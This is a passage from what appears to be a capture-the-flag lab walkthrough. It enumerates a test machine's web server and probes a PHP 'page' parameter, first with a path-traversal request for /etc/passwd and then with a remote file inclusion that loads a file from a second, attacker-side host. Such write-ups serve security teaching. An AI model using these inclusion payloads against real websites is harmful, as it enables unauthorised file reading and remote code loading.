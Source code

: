 This directory contained several PHP files. Unfortunately I couldn’t download any of them due to permission settings on the directory and the files. This in turn led me to enumerating the last open TCP port 80 that nmap discovered.

The webpage at http://192.168.1.133 only displayed an image. The source code implied that this was the index.html and artwork.jpg files that were in the FTP server. Assuming that was true, http://192.168.1.133/0f756638e0737f4a0de1c53bf8937a08 should display the index.php file: 

->![](/images/2013-12-12/07.png)<-

Each of the links under menu referenced a PHP file that was loaded onto the page when it was clicked. My first thought was it might be vulnerable to some form of file inclusion. When a link is clicked, the URL becomes

```text
http://192.168.1.133/0f756638e0737f4a0de1c53bf8937a08/index.php?page=definition.php
```

My first attempt was to see if I could load /etc/passwd using the following:

```
http://192.168.1.133/0f756638e0737f4a0de1c53bf8937a08/index.php?page=../../../../../../etc/passwd
```

However this didn’t seem to do anything. I tested to see if I could do a remote file inclusion:

```
http://192.168.1.133/0f756638e0737f4a0de1c53bf8937a08/index.php?page=http://192.168.1.130/test.txt
```
